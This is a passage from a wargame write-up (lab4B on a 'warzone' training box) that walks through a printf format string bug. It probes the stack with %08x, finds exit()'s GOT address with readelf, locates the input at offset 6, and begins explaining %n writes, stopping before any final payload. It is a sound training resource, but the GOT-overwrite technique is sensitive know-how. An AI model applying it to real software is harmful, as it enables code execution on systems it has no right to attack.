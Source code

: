 Here, the vulnerability is, once again, located in the *printf()* function where no format specifiers are set. Let's check that assumption:

```shell
lab4B@warzone:/levels/lab04$ ./lab4B
%08x
00000064
```

Perfect. Now, we need to find a way to exploit this vulnerability. One way to do that would be to overwrite the address of *exit()* with the address of our shellcode. Why? Simply, because after calling *printf()*, the next function to be called is *exit()*.

The address of *exit()* is stored in the GOT. The Global Offset Table (or GOT) contains direct access to the absolute address of a symbol. As the GOT is writable, we could overwrite the *exit()* address with the address of our choice to redirect the execution flow.

First we have to find the offset of *exit()* in the GOT:

```shell
lab4B@warzone:/levels/lab04$ readelf --relocs lab4B

Relocation section '.rel.dyn' at offset 0x4bc contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804999c  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
080499cc  00001005 R_386_COPY        080499cc   stdin

Relocation section '.rel.plt' at offset 0x4cc contains 6 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
080499ac  00000207 R_386_JUMP_SLOT   00000000   printf
080499b0  00000307 R_386_JUMP_SLOT   00000000   fgets
080499b4  00000407 R_386_JUMP_SLOT   00000000   __gmon_start__
080499b8  00000507 R_386_JUMP_SLOT   00000000   exit
080499bc  00000607 R_386_JUMP_SLOT   00000000   strlen
080499c0  00000707 R_386_JUMP_SLOT   00000000   __libc_start_main
```

Here, the address of *exit()* is `080499b8`. Then, we have to find the offset of our input string:

```shell
lab4B@warzone:/levels/lab04$ ./lab4B 
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
aaaa00000064.b7fcdc20.00000000.bffff6e4.bffff658.61616161.78383025.3830252e

lab4B@warzone:/levels/lab04$ ./lab4B
AAAA%6$p
aaaa0x61616161
```

So, our string is the **6th** parameter on the stack. But, why do we need this information? Well, that's because we'll use another interesting format specifier: **%n**.

The **%n** specifier will write the size of our input at the address pointed by **%n**. For example, the following input : **AAAA%n**, means that we will write the value *4* (because the size of "AAAA" equals 4 bytes) at the address pointed by **%n**. But, where on the stack *%n* points to?

Well, let’s try to submit **AAAA%n** into the program :
